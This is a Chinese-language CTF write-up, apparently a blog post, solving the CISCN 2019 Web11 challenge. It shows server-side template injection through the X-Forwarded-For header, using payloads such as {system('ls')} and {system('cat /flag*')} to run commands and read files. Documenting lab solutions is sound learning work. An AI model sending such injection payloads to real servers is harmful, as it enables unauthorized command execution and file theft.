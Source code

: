 ```yaml
---
title: CISCN 2019华东南Web11
date: 2022-05-14 22:10:34
toc: false
tags:
    - CTF
categories: CTF
my: CISCN2019_Web11
---
```


拿到题目  我只看见满屏的IP  

![](https://s2.loli.net/2022/05/14/A6CEuG9DUd2KMXk.png)

第一时间想到这道题与IP有关系 打开我们的hackbar尝试修改X-Forwarded-For的值  发现右上角有了变化

![](https://s2.loli.net/2022/05/14/8tKpH5VEjrN6AlB.png)

![](https://s2.loli.net/2022/05/14/SQUjBWb8qmTc4vN.png)

尝试获取根目录下文件

```
{system('ls')}
```



右上角出现回显

![](https://s2.loli.net/2022/05/14/ub1EKCRpGHVN9fi.png)

为了方便我们burp抓一下包  直接定位到我们需要的位置

![](https://s2.loli.net/2022/05/14/xb2dZCHcheVUKzS.png)

尝试各种读取  发现都没有flag

- X-Forwarded-For:{system(‘cat /api’)}
- X-Forwarded-For:{system(‘cat /css’)}
- X-Forwarded-For:{system(‘cat /index.php’)}
- X-Forwarded-For:{system(‘cat /smarty’)}
- X-Forwarded-For:{system(‘cat /templates_c’)}
- X-Forwarded-For:{system(‘cat /xff’)}

于是根据做题经验，我们盲猜！flag在根目录  很快就找到了flag

```
{system('cat ../../../flag')}或者{system('cat /flag*')}
```

![](https://s2.loli.net/2022/05/14/irAJaCpnRwWljFm.png)

第二种解法偶尔会出现牛鬼蛇神fl0g就找不到 建议还是老老实实去根目录找

![](https://s2.loli.net/2022/05/14/4udCAWSvlmBospQ.png)
